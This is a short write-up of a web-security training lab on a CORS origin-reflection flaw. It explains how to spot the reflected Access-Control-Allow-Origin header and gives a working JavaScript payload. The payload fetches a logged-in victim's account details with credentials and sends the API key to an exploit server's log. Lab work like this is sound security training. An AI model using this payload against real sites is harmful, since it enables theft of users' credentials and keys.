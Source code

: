 # Lab: CORS vulnerability with basic origin reflection

Log in and notice that the user's api key is displayed on the account page. Check the proxy history to see that the /my-account request makes a request to /accountDetails to retrieve this information. Send the request to the repeater and add the header `Origin: https://example.com`. Notice that the response reflects the origin in the `Access-Control-Allow-Origin` header, indicating that there is a CORS vulnerability.

Use the following script to deliver to the victim via the exploit server, where the target website is accessed and logged on the malicious server:
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://ac4b1f9b1fef40f1c0b7043100830080.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
    location='//exploit-aca41f991f5f4020c01b04e401d700fe.web-security-academy.net/log?response='+this.responseText;
    };
</script>
```

Check the access log to see the response and find the api key. Submit to complete the lab.